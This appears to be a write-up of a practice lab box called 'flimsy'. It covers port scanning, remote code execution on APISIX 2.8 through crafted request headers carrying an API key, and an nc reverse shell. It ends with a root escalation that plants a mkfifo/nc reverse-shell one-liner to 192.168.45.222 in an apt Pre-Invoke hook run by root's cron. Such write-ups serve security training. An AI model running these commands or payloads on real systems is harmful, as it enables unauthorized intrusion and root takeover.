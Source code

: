 # Information Collection

## NMAP

```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
9443/tcp  open  tungsten-https
43500/tcp open  unknown
```



## Webpage enumeration

Access to :43500, check the network information, the server is APISIX/2.8

<img src="../Images/image-20230725114429076.png" alt="image-20230725114429076" style="zoom:50%;" />

search on google, the first one is relate to RCE.

<img src="../Images/image-20230725114533805.png" alt="image-20230725114533805" style="zoom:50%;" />

Change the headers parameter.

```json
headers1 = {
    'Host': '192.168.183.220:43500',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69',
    'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
    'Accept': '*/*',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/json',
    'Content-Length': '540',
    'Connection': 'close',
}

headers2 = {
    'Host': '192.168.183.220:43500',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69',
    'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
    'Accept': '*/*',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/json',
    'Connection': 'close',
}
```



Then try to use nc to rev shell.

<img src="../Images/image-20230725115043913.png" alt="image-20230725115043913" style="zoom:80%;" />

Then get shell, the shell is not good, so upgrade the shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' 
```

Get local.txt

```bash

franklin@flimsy:/root$ cd /home
cd /home
franklin@flimsy:/home$ cd franklin
cd franklin
franklin@flimsy:/home/franklin$ ls
ls
etcd-v3.4.13-linux-amd64  etcd-v3.4.13-linux-amd64.tar.gz  local.txt
franklin@flimsy:/home/franklin$ cat local.txt
cat local.txt
8173341e420fd2c2428c6195dc27b661

```

# PE

```bash
OS: Linux version 5.4.0-122-generic (buildd@lcy02-amd64-095) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022

╔══════════╣ Sudo version
                                   
Sudo version 1.8.31 

╔══════════╣ Operative system
                        
Linux version 5.4.0-122-generic (buildd@lcy02-amd64-095) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.4 LTS
Release:        20.04
Codename:       focal


17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * root apt-get update
* * * * * root /root/run.sh


```

Found the root will running `apt-get update`, so add a new file to `apt.conf.d`, generate a rev shell command.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.222 4445 >/tmp/f

echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.222 4445 >/tmp/f"};' > shell
```

Then wait a sec, will get root shell.

```bash
┌──(aaron㉿aacai)-[~/Desktop/OSCPB]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.45.222] from (UNKNOWN) [192.168.183.220] 40474
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# cat proof.txt
5e056e280d44ac48793cf63879e3d647


```

